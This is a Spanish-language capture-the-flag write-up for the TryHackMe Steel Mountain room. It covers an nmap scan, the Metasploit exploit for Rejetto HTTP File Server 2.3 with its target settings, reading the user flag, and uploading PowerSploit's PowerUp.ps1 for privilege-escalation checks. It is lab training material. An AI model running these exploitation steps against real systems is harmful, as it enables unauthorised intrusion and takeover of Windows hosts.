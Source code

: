 ## Máquina de steel mountain: https://tryhackme.com/room/steelmountain 

### Empleado del mes

Este reto empieza preguntándonos quién es el empleado del mes y como hint nos dicen "reverse image search"

![image](https://user-images.githubusercontent.com/44788583/149637303-95fa8b47-d68b-4b10-9a33-d85a3caab33b.png)

No es necesario hacer reverse search a la imagen, si la descargas te sale el nombre del empleado ahí. Si eres fan de Mr. robot como yo, sabrás fácil quién es.
![image](https://user-images.githubusercontent.com/44788583/149637576-e5b0c3b1-a9f5-42ad-8024-f00d945aa170.png)

-----

### Acceso inicial

Escaneo por nmap:
- nmap 10.10.5.28 -sV -p- -n -T5 (-sV para ver los servicios , -p- puertos , -n para inhabilitar la resolución DNS y -T5 para que vaya lo más rápido posible)

![image](https://user-images.githubusercontent.com/44788583/149639672-7a066343-5d2f-4b35-8836-8bb78a01b010.png)

![image](https://user-images.githubusercontent.com/44788583/149639906-a0d7e639-e4d4-43a8-a477-3183792e4e81.png)
Vemos que el  servidor del web server está en el puerto 8080 (el otro): 
![image](https://user-images.githubusercontent.com/44788583/149639735-d03eafe1-fa6a-438e-bc56-e1bb9ac0822c.png)

El reto nos pide checar el otro servidor web y ver que file server está corriendo.
![image](https://user-images.githubusercontent.com/44788583/149642323-5a510e71-8160-4b3b-9755-cbc7e63568bc.png)
Si entramos, podemos ver que existe en la parte inferior, un cuadro que dice server information
![image](https://user-images.githubusercontent.com/44788583/149642334-a5aa2f7e-01dd-4118-aa3a-0dc22b5b90f2.png)
Por el número de letras de la respuesta, podemos ver que se trata de Rejetto HTTP File Server

----

### Buscando un CVE para explotar vulnerabilidades de Rejetto HTTP File Server
vamos a la página de https://www.exploit-db.com/ y buscamos CVE´s para Rejetto File Server 2.3
![image](https://user-images.githubusercontent.com/44788583/149642434-0f0a8527-0a46-4b69-b15f-197f60269e1d.png)
Abrimos una de ellas para buscar el CVE
![image](https://user-images.githubusercontent.com/44788583/149642570-e3137c3f-fbe7-4c81-ba8c-abbd3483baf0.png)

------

### Ganando acceso inicial con metasploit

- utilizamos: msfconsole -q para lanzar una consola con metasploit
- buscamos el exploit con el comando search hfs

![image](https://user-images.githubusercontent.com/44788583/149647575-a38e5561-022a-4e55-ae90-5b55e97db98c.png)

Usé 1 para elegir la opción 1 que es la que tiene el exploit para Rejetto HFS
- show options para ver qué parámetros se ponen en metasploit

![image](https://user-images.githubusercontent.com/44788583/149689958-8bbac4bb-61fe-401f-8956-5712bc6c96cf.png)
![image](https://user-images.githubusercontent.com/44788583/149690590-eec86396-02c6-4439-ad46-30775459dddd.png)
Se ponen los parámetros para 
- set RHOSTS 10.10.166.61
- set RPORT 8080
- run
Ahora ya tenemos una consola de metasploit corriendo el exploit y nos vamos a la carpeta C:/Users/bill/Desktop
![image](https://user-images.githubusercontent.com/44788583/149698796-86dc3fb2-429f-46fc-bcc2-10b6c47fc817.png)
Vemos que la flag está presente
- cat user.txt
![image](https://user-images.githubusercontent.com/44788583/149699085-08ee3dac-49ea-4bec-8676-84ee16f721b5.png)

### Escalando privilegios

Se usa el powershell del recurso: https://github.com/PowerShellMafia/PowerSploit en específico el archivo powershell de PowerUp.ps1
Yo lo descargué entrando a mi github 
Luego en la sesión de meterpreter se utiliza el siguiente comando: 
- upload /root/PowerSploit-master/Privesc/PowerUp.ps1. (lo guardé en esa ruta de mi máquina)
![image](https://user-images.githubusercontent.com/44788583/149704673-356cd1b8-cbd3-4d20-b195-ed7dae45edba.png)
![image](https://user-images.githubusercontent.com/44788583/149704652-4d69f6d0-d24e-40e2-a174-34b9fd154e92.png)
y luego se ejecuta: 

![image](https://user-images.githubusercontent.com/44788583/149705290-5e102ecf-090c-4d3e-922d-f7a95d4318c6.png)
- load powershell
- powershell_shell
- . .\PowerUp.ps1 (es importante el espacio entre puntos)
- Invoke-AllChecks

![image](https://user-images.githubusercontent.com/44788583/149706408-6bf048cf-6698-44b4-b0b3-13e00b22501a.png)



